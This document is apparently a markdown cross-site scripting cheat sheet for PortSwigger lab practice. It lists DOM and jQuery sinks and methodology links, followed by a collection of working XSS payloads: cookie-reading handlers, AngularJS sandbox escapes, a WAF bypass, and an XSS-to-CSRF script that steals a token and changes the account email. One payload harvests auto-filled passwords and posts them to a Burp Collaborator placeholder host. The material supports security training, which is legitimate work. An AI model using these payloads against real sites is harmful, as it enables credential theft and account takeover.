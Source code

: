 # XSS
	XSS : Cross-Site Scripting




- [google csp validator](https://csp-evaluator.withgoogle.com/)
##### techniques:
- read portswigger's [methodology](https://portswigger.net/web-security/cross-site-scripting/reflected#:~:text=How%20to%20find%20and%20test%20for%20reflected%20XSS%20vulnerabilities) for finding reflected xss
- read portswigger's [methodology](https://portswigger.net/web-security/cross-site-scripting/stored#:~:text=How%20to%20find%20and%20test%20for%20stored%20XSS%20vulnerabilities) for finding stored xss
- read portsiwgger's [methodology](https://portswigger.net/web-security/cross-site-scripting/dom-based#:~:text=How%20to%20test%20for%20DOM%2Dbased%20cross%2Dsite%20scripting) for finding DOM xss
- .innerHTML attribute doesn't accept `script - svg` elements, use alternatives
- search for any non escaped character 
- try several tags, including custom tags 
- if output is encoded try multi-encoded payload
- xss cheat sheet by [Gareth Heyes](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

###### sinks can lead to dom-xss:
```javascript
document.write()
document.writeln()
document.domain
element.innerHTML
element.outerHTML
element.insertAdjacentHTML
element.onevent
```
###### jQuery sinks lead to dom-xss:
```Javascript
add()
after()
append() 
animate() 
insertAfter()
insertBefore() 
before()
html()
prepend() 
replaceAll() 
replaceWith() 
wrap() 
wrapInner()
wrapAll() 
has() 
constructor() 
init() 
index()
jQuery.parseHTML() 
$.parseHTML()
```

###### payloads: 
- [payloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)
- [Gareth Heyes research on portswigger](https://portswigger.net/research/xss-without-html-client-side-template-injection-with-angularjs)
- random payloads
```html
<!-- xss reflected in sink -->
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
<!-- xss in body and auto resize screen  -->
<iframe src="https://your-lab-id.web-security-academy.net/?search=%22><body onresize=print()>" onload=this.style.width='100px'>

<!-- xss in custom tag-->
<script> 
location = 'https://your-lab-id.web-security-academy.net/?search=<xss id=x onfocus=alert(document.cookie) tabindex=1>#x';
</script>

<!-- -->
<svg><animatetransform onbegin=alert(1)>

<!-- bypass some kind of WAF-->
<><img src=1 onerror=alert(1)>

<!-- xss in canonical link -->
'accesskey='x' onclick='alert()

<!-- xss in js template -->
${alert(1)}

<!-- -->
<svg><a><animate+attributeName=href+values=javascript:alert(document.cookie) /><text+x=20+y=20>Click</text></a></svg>

<!-- capture password from auto-fill  -->
<input name=username id=username> <input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{ method:'POST', mode: 'no-cors', body:username.value+':'+this.value });">


```
```javascript
//js 
'sometext'.toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
//AngularJs
{{$on.constructor('alert(1)')()}}
//AngularJs
$event.path|orderBy:'[].constructor.from([1],alert)'
//AngularJs
$event.path|orderBy:'[].constructor.from([1].map(alert))'
```

- xss to csrf
```html
<script> var req = new XMLHttpRequest(); req.onload = handleResponse; req.open('get','/my-account',true); req.send(); function handleResponse() { var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1]; var changeReq = new XMLHttpRequest(); changeReq.open('post', '/my-account/change-email', true); changeReq.send('csrf='+token+'&email=test@test.com') }; </script>
```